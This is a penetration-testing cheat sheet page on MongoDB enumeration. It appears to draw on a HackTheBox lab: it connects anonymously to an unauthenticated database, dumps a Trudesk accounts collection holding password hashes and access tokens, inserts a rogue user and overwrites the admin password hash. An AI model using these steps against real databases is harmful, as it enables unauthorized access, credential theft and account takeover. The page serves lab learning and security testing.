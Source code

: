 ```yaml
---
title: "MongoDB General"
date: 2024-6-27
tags: ["Database Dumping", "Mongodb", "Database", "Enumeration"]
---
```


### General

#### Connect to Mongo Database

{{< tab set1 tab1 >}}anonymous{{< /tab >}}
{{< tab set1 tab2 >}}authenticate{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
mongosh <TARGET>:27017
```

```console {class="sample-code"}
$ mongosh 172.17.0.3:27017
Current Mongosh Log ID: 66f2fa2192b07a1eeb856ec6
Connecting to:          mongodb://172.17.0.3:27017/?directConnection=true&appName=mongosh+2.2.12
Using MongoDB:          5.0.6
Using Mongosh:          2.2.12

For mongosh info see: https://docs.mongodb.com/mongodb-shell/

------
   The server generated these startup warnings when booting
   2024-09-24T10:44:22.876+00:00: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine. See http://dochub.mongodb.org/core/prodnotes-filesystem
   2024-09-24T10:44:23.824+00:00: Access control is not enabled for the database. Read and write access to data and configuration is unrestricted
------

Warning: Found ~/.mongorc.js, but not ~/.mongoshrc.js. ~/.mongorc.js will not be loaded.
  You may want to copy or rename ~/.mongorc.js to ~/.mongoshrc.js.
test> 
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# Connect local with creds and specified database
mongo -u <USER> -p '<PASSWORD>' <DB_NAME>
```

{{< /tabcontent >}}

#### Basic Commands

```console
# Show all databases
show dbs
```

```console {class="sample-code"}
test> show dbs
admin    132.00 KiB
config    72.00 KiB
local     88.00 KiB
trudesk    1.01 MiB
```

```console
# Choose database
use <DB_NAME>
```

```console {class="sample-code"}
test> use trudesk
switched to db trudesk
```

```console
# Show all collections
show collections
```

```console {class="sample-code"}
trudesk> show collections
accounts
counters
departments
groups
messages
---[SNIP]---
```

```console
# Show all of the collection
db.<COLLECTION_NAME>.find().pretty()
```

```console {class="sample-code"}
trudesk> db.accounts.find().pretty()
[
  {
    _id: ObjectId('623c8b20855cc5001a8ba13c'),
    preferences: {
      tourCompleted: false,
      autoRefreshTicketGrid: true,
      openChatWindows: []
    },
    hasL2Auth: false,
    deleted: false,
    username: 'admin',
    password: '$2b$10$imwoLPu0Au8LjNr08GXGy.xk/Exyr9PhKYk1lC/sKAfMFd5i3HrmS',
    fullname: 'Robert Frost',
    email: 'rfrost@carpediem.htb',
    role: ObjectId('623c8b20855cc5001a8ba138'),
    title: 'Sr. Network Engineer',
    accessToken: '22e56ec0b94db029b07365d520213ef6f5d3d2d9',
    __v: 0,
    lastOnline: ISODate('2022-04-07T20:30:32.198Z')
  },
---[SNIP]---
```

```console
# Insert entry into collections
db.<COLLECTION_NAME>.insert({"<key>": "<value>"})
```

```console {class="sample-code"}
trudesk> db.accounts.insert({_id: ObjectId('33f3b8a827983e3773023633'),preferences: {tourCompleted: false,autoRefreshTicketGrid: true,openChatWindows: []},hasL2Auth: false,deleted: false,username: 'test',password: '$2b$10$imwoLPu0Au8LjNr08GXGy.xk/Exyr9PhKYk1lC/sKAfMFd5i3HrmS',fullname: 'Test USer',email: 'test@carpediem.htb',role: ObjectId('623c8b20855cc5001a8ba138'),title: 'Test',accessToken: '3fd5a5e64963cd4b973480032125011568fee525',__v: 0,lastOnline: ISODate('2022-04-07T20:30:32.198Z')})
{
  acknowledged: true,
  insertedIds: { '0': ObjectId('33f3b8a827983e3773023633') }
}
```

```console
# Update an entry (e.g. password of user)
db.<COLLECTION_NAME>.updateOne({"username": "user"}, {$set: {"password": "password"}});
```

```console {class="sample-code"}
trudesk> db.accounts.updateOne({"username":"admin"}, {$set:{"password":"$2b$04$gj6qKJ4AhURmyt1wnUfPsOPebiur236k1m57BwteWHDV2fzJL74Yq"}})
{
  acknowledged: true,
  insertedId: null,
  matchedCount: 1,
  modifiedCount: 0,
  upsertedCount: 0
}
```